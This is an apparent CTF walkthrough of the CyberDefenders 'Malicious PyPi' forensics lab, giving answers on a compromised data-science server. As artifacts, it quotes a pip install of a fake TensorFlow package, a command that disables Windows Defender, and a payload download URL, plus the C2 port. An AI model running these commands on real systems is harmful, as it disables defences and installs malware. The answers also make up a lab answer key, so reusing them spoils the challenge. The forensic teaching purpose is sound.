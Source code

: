 # <a href="https://cyberdefenders.org/blueteam-ctf-challenges/malicious-pypi/">Malicious PyPi</a>

**Platform:** CyberDefenders

**Scenario:** On a Monday afternoon, Dr. Alex Rivera, a data scientist, observed that the CPU utilization on their main development server was persistently exceeding 90%, coupled with a noticeable decline in network connectivity speed, falling well below standard performance levels. This situation was unusual, as the team had not launched any new operations that could account for the increased CPU demand.

A triage image has been taken from his computer, and it is imperative to swiftly determine the root cause, extent, and potential repercussions of this issue to prevent any adverse effects on the company's activities.

**Category:** Endpoint Forensics

**Difficulty:** Medium

**Files:** `N/A`

**Tools:** `` 

**Note:** In this walkthrough, CyberDefenders offers a lab environment for us to utilize. This feature is included with the PRO subscription.

## **Preparations** 

![image](https://github.com/user-attachments/assets/bc3c12fb-0680-4ce0-a2e7-a1f1a28f1bac)

  
## **Questions and Answers**

***1. Dr. Alex Rivera recently downloaded an external library that raised suspicions about system security. Can you identify the specific command used for this download?***  
pip install git+https://github.com/a1l4m/TensorFlow.git#egg=TensorFlow

![image](https://github.com/user-attachments/assets/cba54d19-7ad6-458b-ac61-9c525a65b243)

C:\Users\Administrator\Desktop\Start Here\Artifacts\C\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline

***2. During the investigation, you uncover a command that modified the system's security settings, resulting in the deactivation of Windows Defender in a manner that could assist an attacker. What was this command?***  
***-************ -************************* $*******  

C\Windows\System32\winevt\logs

![image](https://github.com/user-attachments/assets/3e62fbb7-9210-4af1-97a9-4811130c0c47)

Set-MpPreference -DisableRealtimeMonitoring $true

![image](https://github.com/user-attachments/assets/ad04b017-3130-47a4-bb75-094e3d70cd75)

![image](https://github.com/user-attachments/assets/783e5676-4100-4411-8395-d032e0d92853)


***3. Based on your timeline analysis, at what date and time did you first observe unauthorized changes to the security settings that led to the disabling of Windows Defender? Provide the exact UTC timestamp.***  
2024-02-26 12:22:17

![image](https://github.com/user-attachments/assets/68b86f56-85df-4549-a7b5-305133788125)

***4. After the security settings were compromised, a new file appeared on the system. What is the md5 hash of this file, indicating its unique identity?***  

C:\Users\Administrator\Desktop\Start Here\Tools\ZimmermanTools\net6>.\MFTECmd.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\C\$MFT" --csv C:\Users\Administrator\Desktop\ --csvf mft.csv

![image](https://github.com/user-attachments/assets/48d0381b-8967-48bb-9fc2-ff587d1f46af)

![image](https://github.com/user-attachments/assets/907f1eef-8c7d-49d5-b560-364de3fbaa20)

![image](https://github.com/user-attachments/assets/8f04dbc2-8f40-4906-b0db-fc112902bbc9)

23AADF3C98745CF293BFF6B1B0980429

 Get-FileHash .\setup.exe -Algorithm MD5
 ![image](https://github.com/user-attachments/assets/cfb1a67f-cd50-4a2e-919c-fcd1fdac8687)

 
![image](https://github.com/user-attachments/assets/22c6bd9b-61d4-4556-97b0-80ef206a515f)


***5. Investigate the origin of the malicious file detected on the server. What was the exact URL from which this file was initially downloaded before it started communicating with external C2 servers?***  
http://3.66.85.252:8000/file.exe

![image](https://github.com/user-attachments/assets/24cafeba-00e0-4ada-a77d-fdc73607f991)

C:\Users\Administrator\Desktop\Start Here\Artifacts\C\Users\Administrator\AppData\Local\Temp

***6. The file in the previous questions started communicating with an external C2 server. What port was used for this communication?***  
8888

![image](https://github.com/user-attachments/assets/98ca5c39-6062-40a7-a918-917182723fea)

***7. Attackers often ensure their continued access to a compromised system through persistence mechanisms. When was such a mechanism established on Dr. Rivera's system? Provide the UTC timestamp.***  
2024-02-26 12:36:52

![image](https://github.com/user-attachments/assets/b2855a98-e01d-49f9-9f0c-507a04f10c12)

C:\Users\Administrator\Desktop\Start Here\Artifacts\C\Windows\System32\Tasks

![image](https://github.com/user-attachments/assets/d5793863-dca3-4dab-ace0-e31db7c5aba3)

***8. After the attacker completed their intrusion, a specific file was left behind on the host system. Based on the information you've gathered, identify the name of this file, which was created shortly after the attacker established persistence on the system.***  
system.exe

![image](https://github.com/user-attachments/assets/91da669b-e91f-4562-a92a-4ccfe99ac037)

***9. Determine the exact moment the malicious file identified in Question 8 began its operation. When was it first executed? Provide the UTC timestamp.***  
2024-02-26 12:42:21

![image](https://github.com/user-attachments/assets/9e330b8f-664b-4194-bcc7-26eda48085c9)


***10. After identifying the malicious file in Question 8, it is crucial to determine the name of the malware family. This information is vital for correlating the attack with known threats and developing appropriate defenses. What is the malware family name for the malicious file in Question 8?***  

![image](https://github.com/user-attachments/assets/ad5b0301-44de-4197-bf3c-d0c7297a7d49)

Get-FileHash .\system.exe -Algorithm SHA256  

![image](https://github.com/user-attachments/assets/6aa21328-c828-4f86-ac0a-30befe922336)

![image](https://github.com/user-attachments/assets/05b7c868-6971-4ecd-b9ec-79707638be88)

aurora

![image](https://github.com/user-attachments/assets/da89585d-1fc0-48aa-9417-fde8dc6f1fc6)


